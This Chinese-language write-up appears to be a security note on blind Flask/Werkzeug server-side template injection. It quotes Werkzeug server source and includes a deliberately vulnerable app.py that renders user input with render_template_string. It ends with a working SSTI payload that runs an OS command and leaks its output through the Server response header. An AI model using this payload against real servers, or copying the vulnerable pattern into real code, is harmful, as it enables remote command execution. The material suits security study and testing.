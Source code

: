 ## Server请求头
### flask中的Server

flask中的server一共有三个,分别是
- ThreadedWSGIServer
- ForkingWSGIServer
- BaseWSGIServer

其中BaseWSGIServer是另外两个Server的父类,在make_server中存在决定使用哪个server的代码

```PYTHON
def make_server(  
    host: str,  
    port: int,  
    app: WSGIApplication,  
    threaded: bool = False,  
    processes: int = 1,  
    request_handler: type[WSGIRequestHandler] | None = None,  
    passthrough_errors: bool = False,  
    ssl_context: _TSSLContextArg | None = None,  
    fd: int | None = None,  
) -> BaseWSGIServer:  
    """Create an appropriate WSGI server instance based on the value of  
    ``threaded`` and ``processes``.  
    This is called from :func:`run_simple`, but can be used separately    to have access to the server object, such as to run it in a separate    thread.  
    See :func:`run_simple` for parameter docs.    """    if threaded and processes > 1:  
        raise ValueError("Cannot have a multi-thread and multi-process server.")  
  
    if threaded:  
        return ThreadedWSGIServer(  
            host, port, app, request_handler, passthrough_errors, ssl_context, fd=fd  
        )  
  
    if processes > 1:  
        return ForkingWSGIServer(  
            host,  
            port,  
            app,  
            processes,  
            request_handler,  
            passthrough_errors,  
            ssl_context,  
            fd=fd,  
        )  
  
    return BaseWSGIServer(  
        host, port, app, request_handler, passthrough_errors, ssl_context, fd=fd  
    )
```

flask的默认开启server为`ThreadedWSGIServer`,用于处理请求的handler默认为`WSGIRequestHandler`

而WSGIRequestHandler的server_version其实是方法,并且被`@property`修饰，所以可以直接给赋str类型的值
```PYTHON
class WSGIRequestHandler(BaseHTTPRequestHandler):  
  
    server: BaseWSGIServer  
  
    @property  
    def server_version(self) -> str:  # type: ignore  
        return self.server._server_version
```


### Payload

app.py 在代码中没有写ssti的回显部分

```PYTHON
from flask import Flask, request, render_template, render_template_string  
  
app = Flask(__name__)  
  
  
@app.route('/', methods=["POST"])  
def template():  
    template = request.form.get("ssti")  
    result = render_template_string(template)  
    print(result)  
    if result is not None:  
        return "OK"  
    else:  
        return "error"  
  
  
if __name__ == '__main__':  
    app.run(debug=False, host='0.0.0.0', port=8000)
```

可见在响应中存在Server请求头 `Server: Werkzeug/3.0.2 Python/3.11.5`

![](attachments/Pasted%20image%2020241130130625.png)


```SSTI
{{g.pop.__globals__.__builtins__.setattr(g.pop.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"server_version",g.pop.__globals__.__builtins__.__import__('os').popen('whoami').read())}}
```

